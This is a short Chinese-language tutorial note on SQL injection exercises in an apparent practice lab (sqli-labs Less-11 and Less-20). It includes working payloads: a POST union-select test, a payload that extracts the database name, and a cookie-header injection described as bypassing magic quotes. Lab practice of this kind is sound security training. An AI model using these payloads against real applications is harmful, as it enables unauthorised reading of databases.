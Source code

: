 # SQL注入靶场案例练习


### Less-11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/248050e80cb94ba4819ece5c9a45072d.png)


**用burpsuit，抓包修改参数**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5a2399e3e7a0467abd0dab8e36ad9550.png)

联合查询union select测试payload

uname=admin' union select 1,2  --+&passwd=admin&submit=Submit

爆库payload

uname=admin' union select 1,database() --+&passwd=admin&submit=Submit


### **Less-20** POST - Cookie injections - Uagent field  - Error based (基于错误的cookie头部POST注入)

单引号，报错型，cookie型注入。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5f681aa84f7144c5aa6471c997b61896.png)

存在魔术引号

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/7970543bbc6a4225a7479a1e73d412c1.png)

直接cookie注入，进行绕过

Cookie: uname=-admin' union select 1,2,database()--+

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/4240a5acf9ed49ac8326cdd95dc252d7.png)
